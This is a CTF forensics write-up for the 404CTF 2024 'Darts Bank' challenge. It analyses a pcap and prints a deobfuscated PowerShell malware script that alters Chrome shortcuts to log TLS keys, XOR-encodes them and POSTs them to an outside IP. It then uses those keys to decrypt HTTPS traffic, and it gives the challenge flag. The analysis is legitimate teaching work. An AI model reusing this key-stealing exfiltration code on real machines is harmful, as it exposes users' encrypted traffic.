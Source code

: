 ```yaml
---
title: CTFs | 404CTF_2024 | Investigation Numerique | Darts Bank
author: BatBato
date: 2024-04-25
categories:
  - CTFs
  - 404_CTF_2024
  - Investigation Numerique
tags:
  - Forensique
  - Forensic
permalink: /CTFs/404_CTF_2024/Investigation_Numerique/Darts_Bank
---
```

# Darts Bank

![[dart_enonce.png]]

In this challenge, we are given [this pcap](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Invesigation_numerique/dart.pcapng)  file. If we open it using wireshark, we can see a lot of `HTTP` traffic. When we click on the first one and follow the TCP stream, we get the following output on the third stream:

![[Investigation_numerique/Photos/dart_wireshark.png]]

As you can see, this is some powershell script that has been base64 encoded. Once decoded and deobfuscated, we obtain the following code (available [here](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Invesigation_numerique/script.ps1)):

```powershell
foreach($bbbbbbbbbbbb in Get-ChildItem -Recurse -Path C:\Users -ErrorAction SilentlyContinue -Include *.lnk){

$bbbbbbbbbbbbbbb=New-Object -COM WScript.Shell;

$bbbbbbbbbbbbbbbb=$bbbbbbbbbbbbbbb.CreateShortcut($bbbbbbbbbbbb);

  if($bbbbbbbbbbbbbbbb.TargetPath -match 'chrome\.exe$'){

    $bbbbbbbbbbbbbbbb.Arguments="--ssl-key-log-file=$env:TEMP\defender-res.txt";

    $bbbbbbbbbbbbbbbb.Save();

  }

}

$count=0;
$file_path="$env:TEMP\defender-res.txt";
$byte_array=[byte[]](215,194,...,120);

while($true){

  $file_info=Get-Item -Path $file_path;
  $file_size=$file_info.Length;

  if($file_size -gt $count){
    $defender_res=[System.IO.File]::Open($file_path,[System.IO.FileMode]::Open, [System.IO.FileAccess]::Read,[System.IO.FileShare]::ReadWrite);
    $defender_res.Seek($count,[System.IO.SeekOrigin]::Begin)|Out-Null;
    $b64_str=New-Object byte[] ($file_size - $count);
    $defender_res.read($b64_str,0,$file_size - $count)|Out-Null;

    for($i=0;$i -lt $b64_str.count;$i++){

      $b64_str[$i]=$b64_str[$i] -bxor $byte_array[$i % $byte_array.count];

    }

    $data=[Convert]::ToBase64String($b64_str);

    Write-Output $data;

    Invoke-WebRequest -Uri http://192.168.78.89/index.html -Method POST -Body $data|Out-Null;

    $defender_res.Close()|Out-Null;

  }

  $count=$file_size;

  Start-Sleep -Seconds 5;

}
```

The problem here was to understand what this powershell does. And it was "just" a `XOR` between the key (big string of byte) and the message saved in `defender-res.txt`. The encoded message could be found in the next streams. I exported every `index.html` and used [this script](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Invesigation_numerique/exploit.py). I first read the content of each `index.html` file that I exported and then decode the base64 to `XOR` it with the key.

We get the following result:

![[dart_cert.png]]

After a bit of research, I found [this article ](https://www.comparitech.com/net-admin/decrypt-ssl-with-wireshark/) on how to decrypt `SSL` traffic in `Wireshark`. So we need to save the content of all those `index.html` file decoded into a single file and put it into `Wireshark` like so:

![[dart_wireshark 1.png]]

Now, we can read the content of all HTTPS messages. We can use the filter `http2.data.data && data-text-lines contains "404CTF"` to find the flag easily and... Voilà:

![[dart_flag.png]]

The flag is `404CTF{En_pl31n_d4ns_l3_1337_v1@_sUp3r_TLS_d3crypt0r}`.